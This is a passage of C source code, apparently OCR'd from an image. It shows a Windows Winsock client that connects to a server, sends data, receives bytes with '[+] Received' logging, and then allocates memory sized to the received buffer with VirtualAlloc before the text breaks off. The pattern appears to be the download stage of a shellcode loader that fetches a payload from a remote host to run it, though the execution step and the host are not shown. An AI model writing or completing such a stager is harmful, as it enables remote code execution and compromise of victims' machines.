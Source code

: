 ```
        WSACleanup();
        return ;
    }


    for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {

        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype,
            ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            WSACleanup();
            return ;
        }


        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        printf("Unable to connect to server!\n");
        WSACleanup();
        return ;
    }

    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        closesocket(ConnectSocket);
        WSACleanup();
        return ;
    }

    
    iResult = shutdown(ConnectSocket, SD_SEND);
    if (iResult == SOCKET_ERROR) {
        closesocket(ConnectSocket);
        WSACleanup();
        return ;
    }
    

    do {

        iResult = recv(ConnectSocket, (char*)recvbuf, recvbuflen, 0);
        if (iResult > 0)
            printf("[+] Received %d Bytes\n", iResult);
        else if (iResult == 0)
            printf("[+] Connection closed\n");
        else
            printf("recv failed with error: %d\n", WSAGetLastError());


        LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(recvbuf), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
```